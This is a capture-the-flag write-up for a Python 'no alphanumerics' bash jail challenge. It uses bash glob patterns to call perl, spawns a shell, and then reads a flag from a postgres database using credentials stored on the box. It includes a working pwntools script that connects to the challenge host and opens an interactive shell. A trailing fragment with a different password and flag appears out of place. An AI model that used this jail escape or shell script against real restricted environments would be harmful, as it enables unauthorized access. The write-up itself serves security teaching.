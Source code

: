 ## 21 - NoAlpha

### Description

**Solve**: 6/242
**Score**: 90

In the shadowed realm of Cyberton, a legendary Python jail known as "AlphanoNumera" stands, renowned for its unique security mechanism. Crafted by the enigmatic mastermind, Cipheron, this digital fortress allows bash commands—but with a twist. No alphanumeric characters are permitted within its virtual walls.

Source: [https://stdio-2026-public.2600.in.th/noalpha.zip](https://stdio-2026-public.2600.in.th/noalpha.zip)

Author: ErbaZZ

 `157.230.193.18:10021`

### Solution

```python
import re
import subprocess

while True:
    cmd = input('$ ')
    allowed_commands = ['echo', 'whoami', 'uname'] # TODO: Add other 'safe' commands

    check = cmd

    for command in allowed_commands:
        check = check.replace(command, '')

    if re.search(r'[a-zA-Z0-9!]', check) is None:
        try:
            subprocess.run(cmd, shell=True, executable='/bin/bash', env={'HOME':'/home/ctf'})
        except:
            print("?")
    else:
        print("Nope.")
```

Luckily if we look into a bash man page we can see that bash also allow pattern matching with `?` and `*` character which is similar to regex

```bash
$ nc 157.230.193.18 10021
$ echo *
bin boot dev etc home lib lib64 media mnt opt pg_hba.conf proc root run sbin srv start.sh sys tmp usr var
$ echo ???/???
bin/cat bin/dir bin/pwd bin/sed bin/tar dev/pts dev/shm dev/tty etc/apt etc/gss etc/opt etc/rmt etc/rpc etc/ssl lib/lsb sys/bus sys/dev usr/bin usr/lib usr/src var/lib var/log var/opt var/run var/tmp
$ echo ???/????
bin/bash bin/dash bin/date bin/echo bin/grep bin/gzip bin/more bin/stty bin/sync bin/true bin/vdir bin/zcat bin/zcmp bin/znew dev/core dev/full dev/null dev/ptmx dev/zero etc/dpkg etc/motd etc/perl etc/skel lib/init lib/udev run/lock run/utmp usr/sbin var/lock var/mail
$ ???/????
bin/dash: bin/dash: cannot execute binary file
```

Here we can see that if there's no match for a pattern, the pattern won't expand, but in case that there is a match it will expand to list of matched directories or files, and we can see that `/bin/bash ` which can be called with `???/????` but it will have other binary with the same pattern as arguments, which will cause an error

So, from this point it is likely that you have to find a program with unique pattern path, so we can call it properly, after couple of long minutes, here is what I found

```
$ echo ???/???/*
[...SNIPPED...] usr/bin/perl5.32-x86_64-linux-gnu usr/bin/perl5.32.1 usr/bin/perlbug usr/bin/perldoc [...SNIPPED...]
```

There's a `perl5.32.1` which is a scripting language interpreter which could be used to spawn shell and help us escape from jail, we can call it with `???/???/?????.??.?` since it have `.` in it we can specifically call it without match with any other binaries

```
$ echo ???/???/?????.??.?
usr/bin/perl5.32.1
```

According to https://gtfobins.github.io/gtfobins/perl/ we can spawn shell by using `'exec "/bin/sh";'`

```
$ ???/???/?????.??.?
exec "/bin/bash"
```

Unfortunately we have to also send EOF signal to the `perl` but with `nc` it won't be possible without some config, there probably many ways to go about sending EOF to `perl` in this challenge but for me I just going to use `pwntools`

```python
from pwn import *

io = remote('157.230.193.18', 10021)

io.sendlineafter(b'$', b'???/???/?????.??.?')
io.wait(0.1)
io.sendline(b'exec "/bin/bash"')
io.wait(0.1)
io.sendline(b'\x04')

io.interactive()
```

```bash
$ python shell.py
[+] Opening connection to 157.230.193.18 on port 10021: Done
[*] Switching to interactive mode
 $ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat /home/ctf/flag.txt
The flag is in a locally hosted postgresql database.

Database: flag
Username: ctf
Password: 4802691a4cfdc98ed215717cc8efb529
$ psql -h 127.0.0.1 -U ctf -d flag
Password for user ctf: $ 4802691a4cfdc98ed215717cc8efb529

$ select * from flag;
                     flag                     
----------------------------------------------
 STDIO23_21{810fc25e2373f4669ba5cc28eeec2c93}
(1 row)
```

And just like that, we get the flag `STDIO23_21{810fc25e2373f4669ba5cc28eeec2c93}`

```
stty -icanon; nc localhost 1337
```

```
$ cat /home/ctf/flag.txt
The flag is in a locally hosted postgresql database.

Database: flag
Username: ctf
Password: d2614ed6f67a6efa581f0dff855fd573
$ psql -h 127.0.0.1 -U ctf -d flag
Password for user ctf: $ d2614ed6f67a6efa581f0dff855fd573

$ select * from flag;
                     flag                     
----------------------------------------------
 STDIO23_22{d057108afbbf624d8e92c6a3f0900883}
```